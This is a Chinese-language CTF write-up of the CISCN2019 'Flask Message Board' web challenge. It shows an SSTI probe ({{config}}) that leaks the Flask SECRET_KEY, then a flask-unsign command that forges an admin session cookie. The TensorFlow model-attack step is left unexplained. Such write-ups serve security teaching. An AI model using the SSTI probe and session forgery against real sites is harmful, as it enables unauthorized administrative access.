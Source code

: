 # \[CISCN2019 总决赛 Day1 Web3]Flask Message Board(\*)

## \[CISCN2019 总决赛 Day1 Web3]Flask Message Board

## 考点

* Flask session伪造
* TensorFlow模型攻击

## wp

题目已经说明是个Flask的站点，那可能存在SSTI和Flask Session伪造

在右侧留言板随便输一些内容，结果被拒绝，下面也写了这里是有bot检测输入的

![](../../.gitbook/assets/image-20210127135036428.png)

Fuzz了一波，发现这里无论输入什么都会提示被拒绝，但是`Title`、`Author`和`Content`里面输入`1+1`就不会，并且回显的是`Author`的内容。

![](../../.gitbook/assets/image-20210127140932917.png)

并且对session进行解密，内容是

```
{'admin': False}
```

大概率是要伪造admin了，在`Author`测试SSTI，直接上`{{config}}`

![](../../.gitbook/assets/image-20210127141022970.png)



```
 'SECRET_KEY': '1Ii1|1|l1IliilI||iIli|l|iIIi1I1ll1|1lIi1'
```

使用`flask-unsign`伪造session

`flask-unsign --sign --cookie "{'admin': True}" --secret "1Ii1|1|l1IliilI||iIli|l|iIIi1I1ll1|1lIi1"`

结果

```
eyJhZG1pbiI6dHJ1ZX0.YBEFFA._EzwGG57OrghZrI9PTJv5uNm0hI
```

然后可以成功访问`/admin`，可以看到是个网站管理的页面，还有一个模型上传的功能

![](../../.gitbook/assets/image-20210127141650205.png)

F12就看到一些提示

```
Todo: add /admin/model_download button 
<a href="/admin/source_thanos">Open Source</a>
 
zip file with detection.meta detection.index detection.data-00000-of-00001 3 TensorFlow(1.12) files! 

The model need x:0 to input a number , and y:0 to output the result "Human" or "Bot" 
```

访问`/admin/model_download`可以把模型下载下来，源码则在`/admin/source_thanos`，最后是TensorFlow模型分析，说实话没搞懂。

直接说结果，在`Content`输入一个长度为1024的字符串，例如`aaaaaabxCZC`，在`Title`、`Author`和`Content`都输入`aaaaaabxCZC`即可看到flag。

![](../../.gitbook/assets/image-20210127143915752.png)

## 小结

1. 结合新新东西出的web
2. TensorFlow模型攻击没搞懂，标注一下
